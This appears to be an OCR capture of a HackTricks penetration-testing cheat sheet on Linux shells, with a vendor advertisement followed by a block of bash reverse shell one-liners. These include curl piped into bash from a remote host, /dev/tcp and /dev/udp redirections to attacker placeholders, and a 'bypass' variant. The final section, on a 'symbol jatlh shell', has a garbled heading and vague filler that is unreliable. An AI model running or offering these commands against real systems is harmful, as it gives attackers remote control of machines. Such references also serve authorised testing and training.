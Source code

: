 # Shells - Linux

<details><summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!HackTricks AWS Red Team Expert</strong></a><strong>!</strong></summary></details>

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

Find vulnerabilities that matter most so you can fix them faster. Intruder tracks your attack surface, runs proactive threat scans, finds issues across your whole tech stack, from APIs to web apps and cloud systems. [**Try it for free**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) today.

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

***

**If you have questions about any of these shells you could check them with** [**https://explainshell.com/**](https://explainshell.com)

## Full TTY

**Once you get a reverse shell**[ **read this page to obtain a full TTY**](full-ttys.md)**.**

## Bash | sh
```bash
curl https://reverse-shell.sh/1.1.1.1:3000 | bash
bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1
bash -i >& /dev/udp/127.0.0.1/4242 0>&1 #UDP
0<&196;exec 196<>/dev/tcp/<ATTACKER-IP>/<PORT>; sh <&196 >&196 2>&196
exec 5<>/dev/tcp/<ATTACKER-IP>/<PORT>; while read line 0<&5; do $line 2>&5 >&5; done

#Short and bypass (credits to Dikline)
(sh)0>/dev/tcp/10.10.10.10/9091
#after getting the previous shell to get the output to execute
exec >&0
```
### Symbol jatlh shell

The symbol jatlh shell is a powerful tool for executing commands and managing a system. It provides a wide range of features and functionalities that can be used for various purposes, including hacking and penetration testing.
